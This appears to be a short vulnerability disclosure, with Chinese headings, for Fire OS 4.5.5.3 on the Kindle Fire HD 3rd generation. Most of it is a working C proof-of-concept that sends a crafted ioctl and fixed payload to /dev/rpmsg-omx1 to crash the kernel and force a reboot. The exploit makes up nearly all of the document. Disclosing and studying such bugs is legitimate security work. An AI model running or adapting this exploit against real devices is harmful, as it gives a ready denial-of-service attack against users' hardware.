 <languages  />

漏洞影響
--------

    Fire OS 4.5.5.3

POC
---

    /*
     * This is poc of Kindle Fire HD 3rd
     * A bug in the ioctl interface of device file /dev/rpmsg-omx1 causes the system crash via IOCTL 3221772291.
     * Related buggy struct name is gcicommit.
     * This Poc should run with permission to do ioctl on /dev/rpmsg-omx1.
     *
     * The fowllwing is kmsg of kernel crash infomation:
     *
     *
     */
    #include <stdio.h>
    #include <fcntl.h>
    #include <errno.h>
    #include <sys/ioctl.h>

    const static char *driver = "/dev/rpmsg-omx1";
    static command = 3221772291;

    int main(int argc, char **argv, char **env) {
        unsigned int payload[] = { 0xb5d18de2, 0xf6e48a17, 0x9179c429, 0x89a32e03 };

            int fd = 0;
            fd = open(driver, O_RDWR);
            if (fd < 0) {
                printf("Failed to open %s, with errno %d\n", driver, errno);
                system("echo 1 > /data/local/tmp/log");
                return -1;
            }

            printf("Try open %s with command 0x%x.\n", driver, command);
            printf("System will crash and reboot.\n");
            if(ioctl(fd, command, &payload) < 0) {
                printf("Allocation of structs failed, %d\n", errno);
                system("echo 2 > /data/local/tmp/log");
                return -1;
            }
            close(fd);
            return 0;
    }